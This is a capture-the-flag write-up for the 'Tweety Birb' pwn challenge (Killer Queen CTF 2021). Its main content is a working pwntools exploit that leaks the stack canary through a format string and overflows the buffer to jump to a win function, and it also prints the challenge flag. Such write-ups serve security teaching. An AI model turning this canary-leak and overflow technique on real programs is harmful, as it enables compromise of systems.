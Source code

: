 ```yaml
---
name: Tweety Birb (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Tweety Birb (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Tweety Birb

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=2382s "Killer Queen 2021: Tweety Birb")

## Challenge Description

> Pretty standard birb protection

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x4011de
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './tweetybirb'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 72  # IP offset
ret = 0x40101a  # Stack alignment

# Leak canary value (15th on stack)
io.sendlineafter('magpies?', '%{}$p'.format(15))
io.recvline()
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

payload = flat([
    offset * asm('nop'),
    canary,
    8 * asm('nop'),
    ret,
    elf.symbols.win
])

# Send the payload
io.sendlineafter('fowl?', payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```
{% endcode %}

Flag: `kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}`
